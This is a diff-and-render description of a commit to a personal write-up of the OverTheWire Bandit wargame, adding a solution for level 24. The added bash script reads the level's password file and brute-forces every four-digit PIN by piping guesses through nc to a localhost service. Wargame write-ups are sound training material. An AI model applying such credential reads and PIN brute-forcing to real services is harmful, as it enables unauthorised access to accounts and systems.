

Before and after one commit to harshit-jain52/ctf, an MkDocs documentation site: the page built from docs/OverTheWire/Bandit.md, in a window 1280 px wide and 900 px high, scrolled down 5732 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 6330 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
bandit24

````diff
--- a/docs/OverTheWire/Bandit.md
+++ b/docs/OverTheWire/Bandit.md
@@ -255,7 +255,7 @@ bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
 bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
 ```
 
-## level 23 -> 24
+## level 23 -> level 24
 
 ```shell
 bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@@ -305,3 +305,18 @@ bandit23@bandit:/tmp/tmp.OAoC8cNtjQ$ cp script.sh /var/spool/bandit24/foo/
 ```
 
 After a minute or so, password will be written into `pass.txt`
+
+## level 24 -> level 25
+
+```shell
+#!/bin/bash
+set -e
+
+PASS=$(cat /etc/bandit_pass/bandit24)
+
+{
+    for PIN in $(seq -w 0000 9999); do
+        echo "$PASS $PIN"
+    done
+} | nc localhost 30002
+```
````
